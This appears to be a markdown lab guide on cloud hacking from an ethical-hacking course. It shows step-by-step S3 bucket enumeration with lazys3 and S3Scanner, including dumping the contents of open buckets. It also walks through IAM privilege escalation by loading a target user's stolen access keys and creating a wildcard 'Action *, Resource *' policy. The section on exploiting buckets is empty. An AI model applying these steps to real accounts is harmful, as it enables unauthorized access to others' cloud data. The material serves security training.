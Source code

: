 # Cloud-Computing-Hacking



---
# Perform S3 bucket enumeration using various S3 bucket enumeration tools

**1. Enumerate S3 buckets using lazys3**

lazys3 is a Ruby script tool that is used to brute-force AWS S3 buckets using different permutations. This tool obtains the publicly accessible S3 buckets and also allows you to search the S3 buckets of a specific company by entering the company name.

1. `sudo su`
2. `cd lazys3-master/`
3. `ls`
4. `ruby lazys3.rb`
5. A list of public S3 buckets is displayed
6. Press **Ctrl+Z** to stop the script.
7. You can search the S3 buckets of specific company. To do so, type ruby lazys3.rb [Company] and press Enter. [Here, the target company name is HackerOne; you can enter the company name of your choice.]
8. The result appears, showing the obtained list of S3 buckets of the specified company.
9. Press Ctrl+Z to stop running the script.



**2. Enumerate S3 Buckets using S3Scanner**

S3Scanner is a tool that finds the open S3 buckets and dumps their contents. It takes a list of bucket names to check as its input. The S3 buckets that are found are output to a file. The tool also dumps or lists the contents of “open” buckets locally.

1. `sudo su`
2. `cd S3Scanner/`
3. In the S3Scanner folder, type `pip3 install -r requirements.txt` and press Enter to install the required dependencies.
4. After the successful installation of the dependencies, in the terminal window, type `python3 ./s3scanner.py sites.txt` and press Enter to run the tool.
5. Here, sites.txt is a text file containing the target website URL that is scanned for open S3 buckets. You can edit the sites.txt file to enter the target website URL of your choice.
6. The result appears, displaying a list of public S3 buckets. You might encounter the following error: “AWS credentials not configured.” Ignore the error, as we will install and configure the AWS CLI in the next lab.


You can also use other S3 bucket enumeration tools such as S3Inspector (https://github.com), s3-buckets-bruteforcer (https://github.com), Mass3 (https://github.com), Bucket Finder (https://digi.ninja), and s3recon (https://github.com) to perform S3 bucket enumeration for a target website or company.

---
# Exploit S3 Buckets

**1. Exploit Open S3 Buckets using AWS CLI**




---
# Perform Privilege Escalation to Gain Higher Privileges

**1. Escalate IAM User Privileges by Exploiting Misconfigured User Policy**


1. `sudo su`
2. `cd`
3. `aws configure`
4. Enter the details of the target IAM user’s access key in the AWS Access Key ID field and press Enter. Similarly, in the AWS Secret Access Key filed, enter the target IAM user’s secret access key and press Enter.
5. In the Default region name field, type `us-east-2` and press Enter. In the Default output format field, type `json` and press Enter.
6. After configuring the AWS CLI, we create a user policy and attach it to the target IAM user account to escalate the privileges.
7. In the terminal window, type `vim user-policy.json` and press Enter.
8. A command line text editor appears; press I and type the script given below:

{

"Version":"2012-10-17",

"Statement": [
{

    "Effect":"Allow",

    "Action":"*",

    "Resource":"*"

}
]
}

9. After entering the script given in the previous step, press the Esc button. Then, type :wq! and press Enter to save the text document
10. Now, we will attach the created policy (user-policy) to the target IAM user’s account. To do so, type aws iam create-policy --policy-name user-policy --policy-document file://user-policy.json and press Enter.
11. The created user policy is displayed, showing various details such as PolicyName, PolicyId, and Arn.






